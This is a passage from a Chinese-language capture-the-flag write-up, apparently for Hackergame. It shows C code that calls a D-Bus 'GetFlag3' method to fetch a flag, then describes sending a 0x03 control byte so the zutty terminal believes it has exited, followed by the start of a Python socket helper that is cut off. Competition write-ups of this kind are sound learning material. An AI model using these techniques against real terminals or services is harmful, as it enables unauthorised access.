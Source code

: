     msg = dbus_message_new_method_call(
        "cn.edu.ustc.lug.hack.FlagService", // 服务名
        "/cn/edu/ustc/lug/hack/FlagService", // 路径
        "cn.edu.ustc.lug.hack.FlagService",  // 接口
        "GetFlag3");                         // 方法
    if (msg == NULL) {
        fprintf(stderr, "Message Null\n");
        return 1;
    }

    reply = dbus_connection_send_with_reply_and_block(conn, msg, -1, &err);
    dbus_message_unref(msg);
    if (dbus_error_is_set(&err)) {
        fprintf(stderr, "Error in sending message: %s\n", err.message);
        dbus_error_free(&err);
        return 1;
    }

    if (!dbus_message_iter_init(reply, &args)) {
        fprintf(stderr, "Reply has no arguments!\n");
    } else if (DBUS_TYPE_STRING != dbus_message_iter_get_arg_type(&args)) {
        fprintf(stderr, "Argument is not string!\n");
    } else {
        dbus_message_iter_get_basic(&args, &flag);
        printf("Flag: %s\n", flag);
    }
    dbus_message_unref(reply);
    dbus_connection_unref(conn);
    return 0;
}

```

## 动画分享

题目提到祖传的终端模拟器是zutty

简单对着终端发送0x03让终端误以为自己已经接受到退出指令

然后跑一个python的fileserver请求flag内容即可

```
#!/usr/bin/env python3

import socket
import time
from contextlib import closing

def send_socket(payload, host="127.0.0.1", port=8000, timeout=2.0):
    try:
        with closing(socket.socket(socket.AF_INET, socket.SOCK_STREAM)) as sock:
            sock.settimeout(timeout)
            sock.connect((host, port))
            sock.sendall(payload)
            return sock.recv(8192).decode()
    except Exception as e:
        return f"Error: {e}"
